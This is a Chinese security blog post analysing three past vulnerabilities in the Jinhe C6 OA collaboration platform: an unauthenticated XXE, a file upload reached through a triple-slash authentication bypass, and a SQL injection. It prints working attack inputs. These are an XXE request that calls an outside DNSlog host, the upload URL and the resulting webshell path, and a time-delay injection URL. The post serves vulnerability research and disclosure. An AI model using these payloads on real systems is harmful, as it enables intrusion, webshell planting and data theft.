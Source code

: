 #  金和oa协同管理平台历史漏洞分析三则   
原创 chobits02  C4安全团队   2024-03-26 20:18  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJRLLtYBSPZSrvHpKCMpR33fZXDsFfCUiaMUEFNjwibYVCIEMh5nHZ64C3ic4obBScxEJqbEdP461QGAg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
金和oa协同管理平台（又称金和C6协调管理平台），共有20多个应用模块，160多个应用子模块，涉及的企业管理业务包括协同办公管理、人力资源管理、项目管理、客户关系管理、企业目标管理、费用管理等多个业务范围。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmR85YolujpWp7Vibia4uwJrwy4Q5yVbXuNsaBicLmZuSnjM7AiaoW3Aicx1ZA/640?wx_fmt=png&from=appmsg "")  
  
  
C6协同管理系统漏洞实在太多，远不止公开的那些漏洞，我就挑几个典型来分析下。  
1. **XXE漏洞**  
  
漏洞所在代码为  
J  
HSoft.Web.Message.dll  
  
XmlDeal类中初始化方法为Page_Load，会接收输入流中的xml代码进行解析，且没有做鉴权  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRvm0pY8Xiat9Y7bwRAXCSlNMPor6qx6J38VUElsFJ28biaMK9fQxExH2Q/640?wx_fmt=png&from=appmsg "")  
  
因此直接请求即可  
```
POST /c6/JHSoft.Web.Message/XmlDeal.aspx HTTP/1.1
Host: xxxx
Content-Type: application/Xml
 
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://iohndteton.dgrh3.cn/"> %remote;]>'
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRMQqTibVGU9waT0t8L0bcAqemibF61oEsHxIVPTHQpWts9SVOkZI8N0NA/640?wx_fmt=png&from=appmsg "")  
  
dnslog接收到请求信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRMjHxaLSWqocgicOicibeiaVP4cUDI2F2doh8ROkeWt9pnHLgfjZDguJIEg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**2.任意文件上传**  
  
这个漏洞因为没有前端代码，分析起来只能靠一半的猜解  
  
漏洞URL路径为  
```
/C6/JHSoft.Web.Portal/EditMain.aspx///?id=1.aspx
```  
  
  
  
漏洞代码在  
JHSoft.Web.Portal.dll的EditMain类中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRcKzqQz1Biaj55dNYWiaXGmdyzeTnEIt27a6ia4fM6otHcUErEBUicgJEgQ/640?wx_fmt=png&from=appmsg "")  
  
该类初始化方法Page_Load接收两个参数add和id，add为文件保存路径，id为文件名  
  
add不传参时默认保存路径为\  
JHSoft.Web.Portal\Default\  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRvh5dbtEnh9K7EnzWickayaibg4ibrysia5v7cKa2hNwTcExOu7XSmI1ZaQ/640?wx_fmt=png&from=appmsg "")  
  
回到漏洞URL，访问  
/C6/JHSoft.Web.Portal/EditMain.aspx///?id=1.aspx  
  
其中三个斜杠///，起到了权限绕过的作用，无需鉴权即可访问接口  
  
传参id为1.aspx，使得最终保存文件名为1.aspx  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmR71c4MyzDRNmO2VFrOk7b9bkakCn26McIcQPA6nguh95S5F18CZIcmw/640?wx_fmt=png&from=appmsg "")  
  
在上方输入框中输入一句话，点击保存按钮（btn_save）后会调用对应的方法，即btn_server_click方法，保存文件到服务器![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRmgWg13RjaehJBc79ib3ENicicxw0LQ7gamUpy0uibiaYfeBketYFwiaibcTgw/640?wx_fmt=png&from=appmsg "")  
  
  
之后保存的shell地址就为  
```
/C6/JHSoft.Web.Portal/Default///1.aspx/
```  
  
连接即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRLrjWo9nTm0iahNIbkItu7woicic0Ay0cUI6dq2giamFkFVd454TH5m6Vaw/640?wx_fmt=png&from=appmsg "")  
  
  
**3.SQL注入**  
  
我也审了不少C6的注入了，其实都很朴实无华，接口没有鉴权+SQL语句中直接拼接参数  
  
举个例子，下面的URL参数  
Ince  
ntiveID和TVersion存在SQL注入  
```
/C6/JHSoft.Web.IncentivePlan/IncentivePlanFulfill.aspx/?IncentiveID=1%20WAITFOR%20DELAY%20'0:0:5'--&TVersion=1
```  
  
漏洞代码在  
JHSoft.Web.IncentivePlan.dll中  
  
接收参数IncentiveID和TVersion之后，进行初始化GetPlanInfoInit  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRXFXibg88dpJINPpCSicFTEkEFUPiaO1E8yPp9BcO3uvaHClPj9vkQTxnw/640?wx_fmt=png&from=appmsg "")  
  
然后再调用了GetAppFlagById，继续传参  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRD1E8nvcTHomgicFeG6Q5H3EMjw7FqL6Gk3LiaWENsgnTvdvkHCiafHKJg/640?wx_fmt=png&from=appmsg "")  
  
最后竟直接拼接在SQL语句中然后执行，造成SQL注入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTEfGL8Gvh3mdfVHOHic4qmRmtZCXIbtxC3cVa8ZH6FyyMVX8jGx4IvYY1tTGxlNEMicXg1Myz5iabEg/640?wx_fmt=png&from=appmsg "")  
  
  
  
END  
  
  
关注HackingWiki漏洞感知  
  
了解更多安全相关内容  
  
  
  
  
